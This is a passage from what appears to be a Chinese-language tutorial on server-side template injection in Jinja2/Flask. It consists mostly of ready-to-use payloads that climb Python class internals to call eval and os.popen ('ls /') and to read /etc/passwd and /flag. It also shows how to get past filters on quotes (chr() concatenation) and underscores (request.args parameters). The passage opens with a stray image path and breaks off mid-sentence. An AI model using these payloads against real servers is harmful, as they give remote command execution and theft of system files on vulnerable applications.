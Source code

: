 等同于：

```
// [__builtins__]['eval'](){{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

### 过滤了引号

**利用 chr() 绕过**

先获取 chr() 函数，赋值给 chr，后面再拼接成一个字符串

```
{% set chr=().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.[0].__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}# {% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}
```

等同于

```
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}
```

**利用 request 对象绕过**

示例：

```
{{().__class__.__bases__[0].__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd{{().__class__.__base__.__subclasses__()[77].__init__.__globals__[request.args.os].popen(request.args.cmd).read()}}&os=os&cmd=ls /
```

等同于：

```
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

如果过滤了 args，可以将其中的 request.args 改为 request.values，POST 和 GET 两种方法传递的数据 request.values 都可以接收。

### 过滤了下划线__

**利用 request 对象绕过**

```
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[40]('/flag').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[77].__init__.__globals__['os'].popen('ls /').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__
```

等同于：
